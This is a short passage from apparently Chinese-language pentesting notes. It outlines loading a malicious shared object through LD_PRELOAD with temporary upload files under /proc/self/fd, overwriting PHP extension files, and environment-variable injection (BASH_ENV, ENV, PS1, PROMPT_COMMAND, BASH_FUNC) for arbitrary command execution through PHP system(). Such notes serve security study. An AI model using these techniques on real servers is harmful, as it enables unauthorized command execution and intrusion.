            大概思路是：

            -   请求一个过大的body，会在/proc/self/fd目录下生成临时文件
            -   传一个填满大量脏数据的so文件
            -   竞争LD_PRELOAD包含 proc 目录下的临时文件(也可以通过python，pwn包中的time.sleep(60)，来保持连接，使临时文件不被删除)

        *   **可以修改默认扩展目录的so文件**

            如`/php/74/lib/php/extensions/no-debug-non-zts-2019090`

        *   **system的命令执行**

            详细见[p牛的环境变量注入](https://tttang.com/archive/1450/)

            php中调用system本质上是调用了`sh -c`

            在不同操作系统中：

            -   debian：sh→dash
            -   centos：sh→bash

            总结：

            -   `BASH_ENV`：可以在`bash -c`的时候注入任意命令
            -   `ENV`：可以在`sh -i -c`的时候注入任意命令
            -   `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
            -   `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
            -   `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

## 无jsp环境下文件上传利用

>  查看java代码审计那一章
>


